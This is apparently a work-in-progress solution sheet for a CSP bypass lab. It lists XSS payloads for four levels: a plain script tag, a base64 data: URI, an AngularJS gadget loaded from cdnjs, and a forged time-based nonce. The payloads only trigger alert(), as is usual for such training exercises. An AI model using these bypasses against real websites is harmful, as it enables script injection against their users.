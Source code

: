 # CSP Bypass Lab

Note: WIP

**+++ Level 1 +++**
```html
<script>alert(document.domain)</script>
```

**+++ Level 2 +++**
```html
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

**+++ Level 3 +++**
```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
<div ng-app ng-csp>
 {{$on.curry.call().alert(1)}}
</div>
```

**+++ Level 4 +++**

Decode (base64) the nonce. Change the time to now. Encode (base64) the changed timestamp. Use the encoded timestamp as nonce value.
```html
<script nonce="MzEuMDEuMjAyMy8xNjozMw==">alert(document.domain)</script>
```

**+++ Level 5 +++**
```html
tbc
```
